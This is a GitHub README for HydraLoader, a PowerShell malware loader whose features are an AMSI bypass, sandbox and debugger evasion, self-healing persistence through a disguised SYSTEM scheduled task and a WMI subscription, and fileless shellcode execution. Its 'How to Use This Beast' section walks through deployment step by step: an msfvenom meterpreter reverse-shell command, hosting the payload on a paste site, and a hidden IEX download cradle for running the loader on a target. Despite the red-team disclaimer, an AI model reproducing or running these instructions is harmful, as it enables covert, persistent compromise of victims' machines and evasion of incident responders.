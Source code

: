 <p align="center">
  <img src="https://imgur.com/gallery/hydraloader-5wYGBco#e8FJfgA" alt="HydraLoader Logo" width="400"/>
</p>
<h1 align="center">
  <br>
  🐍 HydraLoader 🛡️
  <br>
</h1>

<h4 align="center">The process that refuses to die. A PowerShell loader built on a self-healing persistence engine, designed to survive and thrive even under active incident response.</h4>

<p align="center">
  <a href="https://github.com/ZeroEthical/HydraLoader/blob/main/LICENSE">
    <img src="https://img.shields.io/badge/License-MIT-blue.svg?style=for-the-badge" alt="License">
  </a>
  <a href="#">
    <img src="https://img.shields.io/badge/Language-PowerShell-blue.svg?style=for-the-badge&logo=powershell" alt="Language">
  </a>
    <a href="https://github.com/ZeroEthical">
    <img src="https://img.shields.io/badge/Author-ZeroEthical-purple?style=for-the-badge" alt="Author">
  </a>
  <a href="#">
    <img src="https://img.shields.io/badge/Maintained%3F-Yes-green.svg?style=for-the-badge" alt="Maintained">
  </a>
</p>

<p align="center">
  <a href="#-about-the-project">About</a> •
  <a href="#-key-features">Key Features</a> •
  <a href="#-architecture--flow">Architecture</a> •
  <a href="#-getting-started">Getting Started</a> •
  <a href="#-disclaimer">Disclaimer</a> •
  <a href="#-author">Author</a>
</p>

---

## 📖 About The Project

**HydraLoader** is a highly sophisticated and resilient PowerShell-based payload execution framework, designed for advanced penetration testing and red teaming operations. It employs a multi-layered approach to evasion, persistence, and in-memory execution, aiming to operate undetected in modern, highly monitored environments.

---

## ✨ Key Features

<details>
<summary>🧠 <strong>Evasion & Anti-Analysis</strong></summary>
<br>

-   **In-Memory AMSI Bypass**: Dynamically patches the Antimalware Scan Interface (AMSI) at runtime to neutralize script-based threat detection.
-   **Comprehensive Environment Checks**: Actively detects and evades analysis environments by checking for:
    -   **Debuggers**: Uses native `IsDebuggerPresent()` API calls.
    -   **Sandboxes**: Verifies system RAM, CPU core count, and uptime.
    -   **Analysis Tools**: Scans for common virtualization and analysis processes (e.g., Wireshark, Process Monitor, VMware/VirtualBox tools).
-   **Deep Obfuscation**: The entire script is heavily obfuscated, with critical strings (API functions, DLLs) Base64 encoded and a compacted code structure to deter static analysis.
</details>

<details>
<summary>🐍 <strong>The "Hydra" Persistence Engine</strong></summary>
<br>

HydraLoader employs a dual-headed, self-healing persistence mechanism to ensure long-term access and resilience against removal attempts.

-   **Method 1: Scheduled Task (Elevated Privileges)**: Creates a scheduled task disguised as a legitimate system process (`Microsoft Compatibility Appraiser`) that runs with `SYSTEM` privileges at logon.
-   **Method 2: WMI Event Subscription (Maximum Stealth)**: Establishes a permanent WMI event subscription that triggers on a timer. This method is extremely difficult to detect as it resides in the WMI repository, outside of standard auto-run locations.
-   **Self-Healing Capability**: On each execution, the framework checks if both persistence mechanisms are active. If one has been discovered and removed, the other automatically recreates it, ensuring the "Hydra" survives.
</details>

<details>
<summary>🚀 <strong>Payload Execution</strong></summary>
<br>

-   **"Fileless" In-Memory Operation**: The payload is downloaded directly into a memory buffer, decoded, and executed without ever touching the disk, minimizing the forensic footprint.
-   **AES-256 Decryption Framework**: Includes a function to decrypt payloads using AES-256 (CBC). This allows the payload to be stored and transmitted in an encrypted state, rendering it useless to network inspection tools. *(Note: Requires a pre-encrypted payload)*.
-   **Dynamic API Resolution**: Resolves all necessary Windows API functions dynamically at runtime, avoiding suspicious static import tables.
</details>

---

## ⚙️ Architecture & Flow

1.  **Initialization**: The AMSI bypass is executed instantly.
2.  **Evasion Checks**: The script performs all anti-analysis and anti-sandbox checks. If any fail, it terminates silently.
3.  **Persistence Check & Repair**: The Hydra engine verifies that both the Scheduled Task and WMI Subscription are in place. If not, it creates them.
4.  **Payload Delivery**: The framework downloads the payload from the configured URL directly into memory.
5.  **Decryption & Preparation**: The payload is Base64 decoded. If AES is enabled, it is then decrypted.
6.  **Execution**: The final payload is injected into memory and executed via stealthy Windows API calls.

---

## 🚀 How to Use This Beast 😏

This guide will walk you through preparing your payload, configuring HydraLoader, and deploying it on a target system.

### Step 1: Payload Preparation (Example with `msfvenom`)

First, you need to generate your shellcode. For this example, we'll create a simple reverse shell payload.

1.  **Generate Raw Shellcode**:
    Use a tool like Metasploit's `msfvenom` to create the raw shellcode.

    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=YOUR_PORT -f raw -o shellcode.bin
    ```
    > Replace `YOUR_IP` and `YOUR_PORT` with your listener's details.

2.  **Encode the Shellcode in Base64**:
    HydraLoader expects the payload to be Base64 encoded.

    ```powershell
    # In PowerShell
    $bytes = [System.IO.File]::ReadAllBytes("C:\path\to\shellcode.bin")
    [System.Convert]::ToBase64String($bytes) | Out-File shellcode_b64.txt
    ```
    > Copy the resulting Base64 string. You'll need it in the next step.

### Step 2: Host Your Payload

1.  **Host the Base64 Payload**:
    Paste the Base64 string you just copied into a file (e.g., `payload.txt`) and host it on a web server or a service like GitHub Gist, Pastebin, etc.
2.  **Get the Raw URL**:
    Make sure you have a direct, raw link to the file content. For example, a GitHub Gist raw URL looks like `https://gist.githubusercontent.com/user/gist_id/raw/payload.txt`.

### Step 3: Configure HydraLoader

Now, you need to configure the `MALWARE DECODED.ps1` script itself.

1.  **Update the Payload URL**:
    -   Find the `$cfg` hashtable at the beginning of the script.
    -   Locate the key `$cfg.o`. This holds the Base64 encoded URL of your payload.
    -   First, encode your raw payload URL in Base64:
        ```powershell
        [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("https://your-raw-payload-url.com/payload.txt"))
        ```
    -   Replace the existing value of `$cfg.o` with your new Base64 encoded URL.

### Step 4: (Optional) Configure AES Encryption for Maximum Stealth

If you want to add another layer of protection, you can encrypt your payload.

1.  **Generate a Key and IV**:
    You need a 32-byte (256-bit) key and a 16-byte (128-bit) IV. You can generate them in PowerShell:
    ```powershell
    # Generate a random 32-byte key
    $key = -join ((0..31) | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) })
    # Generate a random 16-byte IV
    $iv = -join ((0..15) | ForEach-Object { [char](Get-Random -Minimum 65 -Maximum 90) })

    Write-Host "Key: $key"
    Write-Host "IV: $iv"
    ```

2.  **Encrypt the Shellcode**:
    Use your favorite encryption script or tool (like CyberChef) with your generated Key and IV to encrypt your **raw** shellcode file (`shellcode.bin`). Then, Base64 encode the **encrypted** output.

3.  **Configure HydraLoader with Keys**:
    -   Base64 encode your Key and IV:
        ```powershell
        [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("YOUR_32_BYTE_KEY_HERE"))
        [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("YOUR_16_BYTE_IV_HERE"))
        ```
    -   Update `$cfg.r` (key) and `$cfg.s` (IV) in the script with these new Base64 values.

4.  **Activate Decryption in Script**:
    -   In the `MALWARE DECODED.ps1` script, find the payload handling section.
    -   Uncomment the three lines responsible for decryption:
        ```powershell
        # $k = [System.Text.Encoding]::UTF8.GetBytes((Get-Data $cfg.r)); $iv = [System.Text.Encoding]::UTF8.GetBytes((Get-Data $cfg.s))
        # $exec_buf = Expand-Stream -d $buf -k $k -iv $iv; if (-not $exec_buf) { exit }
        ```
        And comment out the line that bypasses it:
        ```powershell
        # $exec_buf = $buf
        ```

### Step 5: Deployment

With your payload prepared and HydraLoader configured, you're ready for deployment.

1.  **Set Up Your Listener**:
    Start your C2 listener (e.g., Metasploit's `multi/handler`) to catch the incoming connection.

2.  **Execute on Target**:
    Deliver and execute the `MALWARE DECODED.ps1` script on the target machine. You can use any standard execution method:
    ```powershell
    # Example: Direct execution
    powershell.exe -ExecutionPolicy Bypass -File ".\MALWARE DECODED.ps1"

    # Example: Remote download and execution (IEX cradle)
    powershell.exe -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://your-server/MALWARE%20DECODED.ps1')"
    ```
    On its first run, HydraLoader will set up its persistence mechanisms and then proceed with the payload execution. Subsequent runs will ensure persistence is maintained before executing the payload.

---

## ⚠️ Disclaimer

This tool is intended for authorized red teaming, security research, and educational purposes **only**. Unauthorized use of this framework against any system is illegal. The author assumes no liability and is not responsible for any misuse or damage caused by this program.

---

## 🙏 Acknowledgements

A special thanks to our friends in the Telegram community for providing the base code that inspired the creation of this project.

-   [@scarlettaowner](https://t.me/scarlettaowner)
-   [@viperzcrew](https://t.me/viperzcrew2)

---

## ✍️ Author

-   **ZeroEthical** - [GitHub](https://github.com/ZeroEthical) [Telegram](https://t.me/ZeroEthical)
-   
